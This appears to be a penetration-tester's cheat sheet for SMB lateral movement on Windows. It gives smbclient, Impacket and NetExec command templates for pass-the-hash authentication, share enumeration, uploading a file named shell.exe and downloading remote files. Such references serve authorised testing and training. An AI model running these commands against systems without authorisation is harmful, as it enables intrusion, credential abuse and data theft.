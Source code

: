 # Unix Shell

Search Tag(s): #lateral-movement #impacket #windows

## 01 - Authenticate

### 1.1 - Samba Suite Utils

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/c$
```

Pass the Hash

```
$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/c$
```

### 1.2 - Impacket

```
$ smbclient.py [<domain>/]<username>:<password>@<IP>
```

Pass the Hash

```
$ smbclient.py -hashes :<nt_hash> [<domain>/]<username>@<IP>
```

### 1.3 - NetExec

#### 1.3.1 - Authentication

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth]
```

Pass the Hash

```
$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

## 02 - List Files and Directories

### 2.1 - Samba Suite Utils

```
smb: \> ls
```

### 2.2 - Impacket

```
# use c$

# ls
```

### 2.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --shares
```

## 03 - Copy Files

### 3.1 - Samba Suite Utils

Upload file

```
smb: \> put /path/to/local/shell.exe
```

Download file

```
smb: \> get \path\to\remote\file.txt
```

### 3.2 - Impacket

Upload file

```
# put /path/to/local/shell.exe
```

Download file

```
# get \path\to\remote\file.txt
```

### 3.3 - NetExec

Upload file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe
```

Download file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt
```

---
## References

- [NetExec Wiki: Get and Put Files](https://www.netexec.wiki/smb-protocol/get-and-put-files)